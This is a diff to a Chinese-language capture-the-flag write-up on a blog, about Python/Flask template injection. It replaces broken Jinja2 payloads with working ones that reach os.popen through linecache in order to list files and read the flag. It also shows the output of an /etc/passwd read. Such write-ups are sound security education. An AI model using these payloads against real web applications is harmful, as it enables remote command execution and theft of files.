

Before and after one commit to MonkeyDatabase/MonkeyDatabase.github.io, a Jekyll site: the page built from _posts/2020-10-11-ctf-web-Web-python-template-injection.md, in a window 1280 px wide. Shown: the top 1920 px of the page at 80% size, without its empty margins (317-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
commit ctf web flask

````diff
--- a/_posts/2020-10-11-ctf-web-Web-python-template-injection.md
+++ b/_posts/2020-10-11-ctf-web-Web-python-template-injection.md
@@ -31,11 +31,11 @@ comments: true
    root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false _apt:x:104:65534::/nonexistent:/bin/false messagebus:x:105:110::/var/run/dbus:/bin/false 0:x:0:0:noone:/tmp:/sbin/nologin
    ```
 
-8. 发现能通过warnings.catch_warnings的linecache函数引用了os函数，可以访问os模块执行系统命令。访问ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59].\_\_line\_\_.os.popen('ls').read()\}\}，返回内容为/fl4g index.py not found,找到flag文件
+8. 发现能通过warnings.catch_warnings的linecache函数引用了os函数，可以访问os模块执行系统命令。访问ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59].\_\_init\_\_.func_globals['linecache'].os.popen('ls').read()\}\}，返回内容为/fl4g index.py not found,找到flag文件
 
 9. 直接通过网址访问ip:port/fl4g，访问失败
 
-10. 继续使用linecache函数进行调用系统函数，ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59].\_\_line\_\_.os.popen('cat fl4g').read()\}\}，返回内容为/ctf\{f22b6844-5169-4054-b2a0-d95b9361cb57\} not found
+10. 继续使用linecache函数进行调用系统函数，ip:port/\{\{"".\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()[59].\_\_init\_\_.func_globals['linecache'].os.popen('cat fl4g').read()\}\}，返回内容为/ctf\{f22b6844-5169-4054-b2a0-d95b9361cb57\} not found
 
 11. 发现flag，ctf\{f22b6844-5169-4054-b2a0-d95b9361cb57\}
 
````
